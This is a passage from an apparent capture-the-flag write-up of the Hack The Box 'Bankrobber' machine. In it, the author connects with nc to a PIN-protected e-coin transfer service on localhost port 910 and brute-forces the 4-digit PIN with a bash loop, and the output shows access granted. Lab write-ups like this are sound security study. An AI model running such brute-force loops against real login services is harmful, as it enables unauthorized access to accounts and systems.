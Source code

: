 <p>I decided to take a look using the browser first.</p>

<p>
<img src="{{ '/assets/htb-bankrobber/root-binary.PNG' | relative_url }}">
</p>

<p>Ah, seems more like a nc connection kinda thing.</p>

{% highlight shell %}
root@kali:~/Desktop/HTB/Bankrobber# nc localhost 910
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 1111
 [!] Access denied, disconnecting client....
{% endhighlight %}

<p>Hum... ok let's just cut to the chase and brute through the 10,000 possibilities. Hopefully there isn't any lockout mechanism and we aren't shooting ourselves in the foot by doing this!</p>

{% highlight shell %}
root@kali:~/Desktop/HTB/Bankrobber# for i in {0000..9999}; do echo $i; echo $i | nc localhost 910; sleep 0.1; done 
0000
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$]  [!] Access denied, disconnecting client....
...
<snip>
...
0021
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$]  [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] id
.........
 [!] You waited too long, disconnecting client....
{% endhighlight %}
